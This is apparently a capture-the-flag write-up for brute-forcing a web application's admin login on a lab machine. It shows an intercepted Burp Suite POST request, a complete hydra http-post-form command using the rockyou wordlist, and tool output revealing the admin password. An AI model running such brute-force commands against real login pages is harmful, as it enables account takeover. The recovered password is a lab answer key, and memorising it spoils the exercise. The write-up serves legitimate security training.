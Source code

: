 Now we know the request type and have a URL for the login form, we can get started brute-forcng an account.

Run the following command but fill in the blanks:

hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form

Guess a username, choose a password wordlist and gain credentials to a user account!

_Hint: Username is admin… But what is the password?_

**Answer**

Let’s first intercept the POST request using Burp Suite:

POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.79.198
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 777
Origin: http://10.10.79.198
DNT: 1
Connection: close
Referer: http://10.10.79.198/Account/login.aspx?ReturnURL=%2fadmin%2f
Upgrade-Insecure-Requests: 1

__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=password&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in

It will help us write the paylaod for hydra. Let’s crack the admin password:

$ hydra -f -l admin -P /data/src/wordlists/rockyou.txt 10.10.79.198 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-17 14:37:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.79.198:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=nbWrkCqQ%2B1Hn%2Fgt8OwrXb%2B%2BFMX0bVJv9xbWiO3oASE6l0%2BDl73MXEP2ao2pwbsK6Jr4MzOI9cbeVU7o5WL%2BFKDPWl1RXjt5kLGmi%2F1d9biM%2Fi3jThbmDihH1A7JWIVyWFQ3lIXAOLpqdlBKHFv6dZd8XzdjcN%2FrgmGzhog7Sf0Ml3kvolr3pzU9VlhHtBqJZNJ%2FkQVxtOT%2Bc%2FxMceQklmwd%2FeiI1sb4%2B4Mv4ol44Uy4Mf9Vaw%2B6OUiBt1BZn8PQoOcFS6ul97keSrPf2jTIqUqeC1YQwwE0FU7Syl8jfviP6nsNb4aSX6ASTDZlajXjkTtFum%2Bpk3uz4%2FtNoraPjA%2FTn5DuX56Sbr4I9oGPQznIuhjc0&__EVENTVALIDATION=pKMn8W0WIp7BuOhOq9YO49%2BqkAVDl1TJjXzk%2BDzHnOyizFWE7BYkR%2Frn983R5edqA0yBYDn%2Fi7BIxrq%2FJlxoiMHPZ2UN1iFWs83YOrgnVHxJtr4R811S4kAhpj4kb6aqZ1r9F5iqUqIoj3gfQjf%2BtO7mRTdLARthnldxPEA73U3caeMM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[STATUS] 944.00 tries/min, 944 tries in 00:01h, 14343454 to do in 253:15h, 16 active
[80][http-post-form] host: 10.10.79.198   login: admin   password: 1qaz2wsx
[STATUS] attack finished for 10.10.79.198 (valid pair found)